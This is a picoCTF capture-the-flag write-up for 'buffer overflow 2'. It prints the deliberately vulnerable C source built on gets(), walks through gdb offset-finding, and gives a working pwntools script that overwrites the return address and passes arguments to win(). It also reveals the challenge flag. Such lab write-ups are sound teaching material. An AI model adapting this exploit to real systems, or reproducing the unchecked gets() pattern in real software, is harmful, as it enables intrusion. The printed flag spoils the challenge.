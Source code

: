 # buffer overflow 2
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Control the return address and arguments This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this [program?](https://github.com/jon-brandy/CTF-WRITE-UP/blob/f4988ca3e1525733628e10f39c3873e83589c97f/Asset/buffer%20overflow%202/vuln) 
You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/f4988ca3e1525733628e10f39c3873e83589c97f/Asset/buffer%20overflow%202/vuln.c). And connect with it using `nc saturn.picoctf.net 62608`.
## HINT:
1. Try using GDB to print out the stack once you write to it.
## STEPS:
1. First, download both files given.
2. Next let's check the program file by run `file vuln`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188063140-c8571087-3b43-4285-a497-fc02f80176ac.png)

3. Since it's not stripped we can see the function in gdb then, also notice this time the file is 32 bit.
4. But i want to check the protector available here, so let's run `checksec --file vuln`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188063279-a839274b-0c72-46ac-adad-983d54e0aaf2.png)

5. Great **no canary** found and **no pie**.
6. Now let's analyze the source code first.

> VULN.C  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

7. Found the vuln here because of the `gets()` function.

![image](https://user-images.githubusercontent.com/70703371/188063545-c5fbdb3d-339a-4b33-b167-e14efef15c09.png)

8. I think this challenge is quite similiar to the previous one, but based from the description we need to control the arguments too not just the return address.
9. The win function caught my attention, because of the condition we must to fullfill to get the flag. 

![image](https://user-images.githubusercontent.com/70703371/188063795-b1c206bc-c2fd-4e19-87d4-fd8cfdddf37a.png)

> NOTES

```
arg1 must be -> 0xCAFEF00D
arg2 must be -> 0xF00DF00D
```

10. Anyway let's get the **win()** function's address first by run `gdb`.

> STEPS

![image](https://user-images.githubusercontent.com/70703371/188064249-f34a5f04-ef34-424a-8a08-92665044f17d.png)

![image](https://user-images.githubusercontent.com/70703371/188064277-23c6d1b1-9a53-4851-93b1-33c2bd3b7662.png)

```
win() address -> 0x8049296
```

11. Now let's run the program.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069254-a10261de-a5f7-4413-8b33-715daec8e591.png)

12. Let's try to input the same size as the buffer -> 100.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069350-40a8a62d-e1fe-444f-9775-0c9da587e507.png)

13. Let's add another 4 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069415-4e7143ae-2d77-42f7-92b1-a5e6a9d800a7.png)

14. Add another 4 bytes again.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188069527-ecac073e-59e2-469a-adee-6a51c025a3e0.png)

15. Great the program crashed.
16. But at this point we didn't know did we just change the return address or not. 
17. So we need to find the `offset` of the **EIP**.

> NOTES

```
A standard buffer overflow is used to overwrite the EIP. It is usually possible to predict an appropriate EIP value that will land execution within 
the NOPs which will “execute” until the payload (usually shellcode) is encountered. 
• The shellcode then spawns a process to download and execute malware.
```

18. To found the offset let's make cyclic pattern with the 1024 as the size.

> I USED GDB FOR THIS STEPS

![image](https://user-images.githubusercontent.com/70703371/188070976-129eefdb-9fe2-46ad-a827-2d5a912b0cb1.png)

> RUN THE PROGRAM & PASTE THE STRINGS

![image](https://user-images.githubusercontent.com/70703371/188071041-581dbc79-7d65-4f2c-85de-aa39787eb020.png)

> FIND THE OFFSET OF $EIP

![image](https://user-images.githubusercontent.com/70703371/188071166-839f09c6-19f8-4110-9f99-e1ad39d9751d.png)

> FOUND AT 112

![image](https://user-images.githubusercontent.com/70703371/188071195-84200e05-dbb6-4d4e-a52f-11bb03a218ae.png)

19. Next we need to fint the address of the main function too, because after we called the `win()` function, following it at the stack is going to be the return address for that function. So for the safe way to do this i add the address for the main function for the payload.

> MAIN FUNCTION'S ADDRESS

![image](https://user-images.githubusercontent.com/70703371/188077884-95401326-e39c-49fb-95de-b5d6a9be183e.png)

20. For the final solution, i made a script in python using **pwntools**:

> PAYLOAD.PY

```py
import os
from pwn import *

os.system('clear')

arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D
win = 0x8049296
main = 0x8049372

sh = remote('saturn.picoctf.net', 62805)

sh.recvuntil('\n')
p = b'A' * 112 
p += p32(134517398) # the win function decimal
p += p32(134517618) # the main function decimal
p += p32(3405705229) # arg1 decimal representation
p += p32(4027445261) # arg2 decimal representation

sh.sendline(p)

sh.interactive()

```

> OUTPUT


![image](https://user-images.githubusercontent.com/70703371/188078068-83fb7997-2fc2-4d7b-a6db-3bbc30f7282e.png)


21. Finally we got the flag!

## FLAG

```
picoCTF{argum3nt5_4_d4yZ_31432deb}
```
## REFERENCES:

```
https://www.sciencedirect.com/topics/computer-science/extended-instruction-pointer
```
